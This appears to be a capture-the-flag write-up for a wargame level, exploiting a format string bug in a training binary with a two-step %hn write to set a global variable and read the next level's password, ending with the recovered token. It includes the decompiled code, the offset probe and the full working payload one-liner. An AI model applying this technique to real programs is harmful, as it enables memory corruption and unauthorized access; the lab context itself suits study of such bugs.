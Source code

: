 # level04

1. Decompilation with Ghidra

    - Decompile the `level4` binary with Ghidra
    - The binary contains a function `n()` that:
      - Calls `fgets()` to read 512 bytes of user input (safe)
      - Calls `p()` that:
        - Calls `printf()` with user input as format string (vulnerable!)
      - Checks if global variable `m` equals `0x1025544` (16 930 116)
      - If true, calls `/bin/cat /home/user/level5/.pass")`

2. Analysis of the vulnerability

    The decompiled code is:

    ```c
    void n(void)

    {
        char local_20c [520];
  
        fgets(local_20c,0x200,stdin);
        p(local_20c);
        if (m == 0x1025544) {
            system("/bin/cat /home/user/level5/.pass");
        }
        return;
    }
    ```

    The vulnerability:
    - **Format string attack** via `printf(local_20c)` without format specifier
    - We need to modify the global variable `m` to be equal to `0x1025544` (16 930 116)
    - Using `%hn` format specifier, we can write to arbitrary memory addresses

3. Finding the address of global variable m

    Using objdump to find the symbol address:

    ```bash
    gdb ./level4
    info address m
    ```

    Symbol "m" is at **0x8049810** in a file compiled without debugging.
    (so "m+2" is at **0x8049812**)

4. Finding the format string offset

    Test to find where our input appears on the stack:

    ```bash
    echo "BBBB %x %x %x %x %x %x %x %x %x %x %x %x" | ./level4
    # Output BBBB b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 42424242
    ```

    We see `42424242` (AAAA in hex) at the **12th position**.

5. Exploit construction

    Strategy:

    Use 2-step writing with **%hn** to write the large value **0x1025544**

    Place addresses of m and m+2 at the beginning of the buffer

    Use format specifiers to control the byte counter

    Format string breakdown:
    text

    [\x12\x98\x04\x08][\x10\x98\x04\x08][%250x%12\$hn][%21570x%13\$hn]
    |                 |                 |             |
    |                 |                 |             +-> Write 21570 + 258 = 21828 (0x5544) to address at offset 13 (m)
    |                 |                 +-> Write 250 + 8 = 258 (0x0102) to address at offset 12 (m+2)
    |                 +-> Address of m (offset 13)
    +-> Address of m+2 (offset 12)

    Total bytes calculation:

        Initial: 8 bytes (2 addresses)

        After %250x: 8 + 250 = 258 = 0x0102 written to m+2

        After %21570x: 258 + 21570 = 21828 = 0x5544 written to m

    Final value in m: 0x01025544 = 0x1025544

6. Exploitation

    ```bash
    echo -e "\x12\x98\x04\x08\x10\x98\x04\x08%250x%12\$hn%21570x%13\$hn" | ./level4
    ```

7. Token discovered

    The token is: `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`
